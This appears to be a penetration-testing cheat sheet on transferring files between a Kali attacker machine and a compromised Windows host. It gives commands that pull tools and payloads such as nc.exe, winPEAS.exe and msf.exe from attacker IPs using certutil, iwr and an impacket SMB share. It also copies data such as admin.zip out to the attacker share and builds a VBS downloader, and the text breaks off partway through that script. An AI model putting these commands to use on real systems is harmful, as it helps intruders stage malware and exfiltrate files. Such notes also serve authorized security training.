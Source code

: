 **exe2hex and Powershell**
kali transfer binary file to windows
kali：compress， convert to hex， embed into win script
win：paste into shell and run， redirect hex into powershell 

```
//kali
upx -9 nc.exe  //compress
exe2hex -x nc.ext -p nc.cmd

//win, copy to shell and run
```

**Certutil**

```
certutil -urlcache -split -f http://10.10.0.22/winPEAS.exe winPEAS.exe
```

**smb share**
+ mpacket smbserver
+ kali smb service

```
//kali
impacket-smbserver share $(pwd) -smb2support

#share
# share, share name
# path to share
python smbserver.py share "/root/shell"

//target, windows
dir \\kaliip\share
# upload admin.zip to kali
copy admin.zip \\192.168.119.196\share

# download whoami.exe to win
copy \\kaliip\share\whoami.exe .\

# execute from smb share
# windows
\\kaliip\share\whoami.exe
```

**IWR ps**

```bash
# -OutFile, output file.
iwr http://192.168.118.14/msf.exe -OutFile C:\Users\Mike\Downloads\msf.exe

powershell -c "iwr http://ip/xx.file -OutFile c:\users\xx\xx.file"
```

**win vbs**

```vb
//vbs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >>
```